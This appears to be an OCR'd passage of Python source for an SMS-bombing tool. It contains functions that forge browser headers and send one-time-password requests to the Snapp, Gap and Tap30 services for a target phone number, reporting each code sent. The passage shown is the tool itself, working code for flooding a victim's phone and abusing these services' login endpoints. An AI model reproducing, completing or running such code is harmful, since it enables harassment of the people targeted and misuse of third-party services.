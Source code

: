 from platform import node, system, release; Node, System, Release = node(), system(), release() 
from os import system, name; system('clear' if name == 'posix' else 'cls')
from re import match, sub
from threading import Thread, active_count
import urllib3; urllib3.disable_warnings()
from time import sleep
try:
    from requests import get, post
except ImportError:
    system("python3 -m pip install requests")   
def snap(phone):
    snapH = {"Host": "app.snapp.taxi", "content-length": "29", "x-app-name": "passenger-pwa", "x-app-version": "5.0.0", "app-version": "pwa", "user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36", "content-type": "application/json", "accept": "*/*", "origin": "https://app.snapp.taxi", "sec-fetch-site": "same-origin", "sec-fetch-mode": "cors", "sec-fetch-dest": "empty", "referer": "https://app.snapp.taxi/login/?redirect_to\u003d%2F", "accept-encoding": "gzip, deflate, br", "accept-language": "fa-IR,fa;q\u003d0.9,en-GB;q\u003d0.8,en;q\u003d0.7,en-US;q\u003d0.6", "cookie": "_gat\u003d1"}
    snapD = {"cellphone":phone}
    try:
        snapR = post(timeout=5, url="https://app.snapp.taxi/api/api-passenger-oauth/v2/otp", headers=snapH, json=snapD).text
        if "OK" in snapR:
            print(f'{g}(Snap) {w}Code Was Sent')
            return True
    except:
        pass
def gap(phone):
    gapH = {"Host": "core.gap.im","accept": "application/json, text/plain, */*","x-version": "4.5.7","accept-language": "fa","user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36","appversion": "web","origin": "https://web.gap.im","sec-fetch-site": "same-site","sec-fetch-mode": "cors","sec-fetch-dest": "empty","referer": "https://web.gap.im/","accept-encoding": "gzip, deflate, br"}
    try:
        gapR = get(timeout=5, url="https://core.gap.im/v1/user/add.json?mobile=%2B{}".format(phone.split("+")[1]), headers=gapH).text
        if "OK" in gapR:
            print(f'{g}(Gap) {w}Code Was Sent')
            return True
    except:
        pass
def tap30(phone):
    tap30H = {"Host": "tap33.me","Connection": "keep-alive","Content-Length": "63","User-Agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36","content-type": "application/json","Accept": "*/*","Origin": "https://app.tapsi.cab","Sec-Fetch-Site": "cross-site","Sec-Fetch-Mode": "cors","Sec-Fetch-Dest": "empty","Referer": "https://app.tapsi.cab/","Accept-Encoding": "gzip, deflate, br","Accept-Language": "fa-IR,fa;q\u003d0.9,en-GB;q\u003d0.8,en;q\u003d0.7,en-US;q\u003d0.6"}
    tap30D = {"credential":{"phoneNumber":"0"+phone.split("+98")[1],"role":"PASSENGER"}}
    try:
        tap30R = post(timeout=5, url="https://tap33.me/api/v2/user", headers=tap30H, json=tap30D).json()
        if tap30R['result'] == "OK":
            print(f'{g}(Tap30) {w}Code Was Sent')
            return True
    except:
        pass
    